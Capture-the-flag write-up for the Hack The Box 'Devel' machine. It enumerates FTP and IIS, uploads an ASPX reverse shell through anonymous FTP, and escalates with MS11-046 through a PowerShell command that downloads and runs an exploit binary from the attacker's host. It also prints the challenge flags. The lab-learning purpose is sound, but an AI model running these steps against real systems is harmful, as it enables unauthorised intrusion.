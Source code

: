# HTB: Devel

## Engagement Overview

**Target:** Devel   
**Box IP:** 10.10.10.5  
**Host IP:** 10.10.14.6     
**Date:** 2025-09-27

------

### Objectives

- Enumerate services and identify misconfigurations.
- Compromise the FTP service.
- Gain initial foothold via uploaded ASPX reverse shell.
- Enumerate the system and escalate privileges with MS11-046.
- Capture `user.txt` and `root.txt`.

------

## Service Enumeration

### Nmap Results

```bash
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png

80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
```

### FTP Discovery

- Anonymous login allowed with **write access** to IIS root.
- Uploaded an [ASPX reverse shell](https://gist.github.com/qtc-de/19dfc9018685fce1ba2092c8e2382a79) and executed it successfully:

```bash
Listening on [any] 1337 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.5] 49169
Microsoft Windows [Version 6.1.7600]
c:\windows\system32\inetsrv>
```

------

## System Enumeration

**User Privileges**

```powershell
SeChangeNotifyPrivilege       Enabled
SeImpersonatePrivilege        Enabled
SeCreateGlobalPrivilege       Enabled
```

**System Information**

- Host: DEVEL
- OS: Windows 7 Enterprise (no patches)
- Architecture: x86 VM (VMware Virtual Platform)
- Domain: HTB
- Local user: `babis`

**Enumeration Tools**

- `winPEAS` → suggested WinPrivCheck.
- `WinPrivCheck` → suggested PrintSpoofer, but x86 binary failed.
- `Watson` (x86) → unsupported for this Windows 7 build.

At this point, leveraged known kernel exploit (MS11-046).

------

## Privilege Escalation

### MS11-046 Exploit

- Used pre-compiled binary from [abatchy17 repo](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046).
- Uploaded and executed:

```powershell
powershell (New-Object Net.WebClient).DownloadFile('http://10.10.14.6/ms11.exe','C:\tmp\ms11.exe')
C:\tmp> ms11.exe
```

**Result:**

```powershell
whoami
nt authority\system
```

**Flags:**

```powershell
c:\Users\babis\Desktop> type user.txt
04dbb55ef3ca04e4c70324f2806e2058

c:\Users\Administrator\Desktop> type root.txt
f5706205b5fc6a4276193c5c7b9ef872
```

------

## House Cleaning

- Deleted `C:\tmp\ms11.exe` and working directory.
- No persistence or artifacts left on target.

------

## Tools Utilized

- `nmap`
- `ftp`
- `winPEAS`
- `WinPrivCheck`
- `Watson`
- `MS11-046 exploit`

------

## Key Takeaways

- Anonymous FTP with upload rights is a critical misconfiguration.
- IIS root folder write access allows straightforward webshell execution.
- Windows 7 Enterprise without patches is highly vulnerable